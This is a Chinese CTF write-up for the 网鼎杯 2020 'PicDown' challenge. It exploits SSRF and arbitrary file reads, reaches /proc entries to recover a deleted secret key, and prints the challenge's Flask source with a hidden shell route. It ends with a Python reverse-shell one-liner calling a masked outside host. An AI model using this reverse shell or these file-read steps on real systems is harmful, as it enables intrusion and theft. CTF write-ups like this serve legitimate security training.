 # \[网鼎杯 2020 白虎组]PicDown

## \[网鼎杯 2020 白虎组]PicDown

## 考点

* SSRF
* 任意文件读取
* Flask代码审计

## wp

除了一个框啥都没有，F12看到了请求的参数`/page?url=`

![](<../../.gitbook/assets/image (16) (1) (1) (1).png>)

一开始以为PicDown是下载图片，试了一下发现就是SSRF

![](<../../.gitbook/assets/image (18) (1) (1) (1).png>)

尝试目录穿越文件读取，最后有个app用户

![](<../../.gitbook/assets/image (20) (1) (1) (1).png>)

尝试读取flag，发现可以直接读`http://b7ce4ee5-2c98-41db-beae-1955d540e6bf.node4.buuoj.cn:81/page?url=/flag`访问得到一个图片，应该是非预期了。

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1) (1).png>)

读取`/proc/self/cmdline`文件，得到`python2 app.py`

访问`/proc/self/environ`得到如下

```
MAIL=/var/mail/app
USER=app
HOME=/home/app
LOGNAME=app
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SHELL=/bin/sh
PWD=/app
```

访问`app.py`，直接访问?url=app.py

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

可以看到`app.py`在读取`/tmp/secret.txt`后把它删除，然后我们要在`/no_one_know_the_manager`传递一个和`secret.txt`内容相同的字符串才能getshell。虽然它删除了文件，但是是有读取缓存的，在`/proc/pid/fd/`中，一个一个试不难试出来在`/proc/self/fd/3`

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (6) (1) (1) (1).png>)

由于无回显，这又是用的python2，所以直接用python反弹shell即可

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("****",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](<../../.gitbook/assets/image (8) (1) (1) (1).png>)

## 小结

1. 在读取文件时，可以考虑的文件`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，`/etc/hosts`
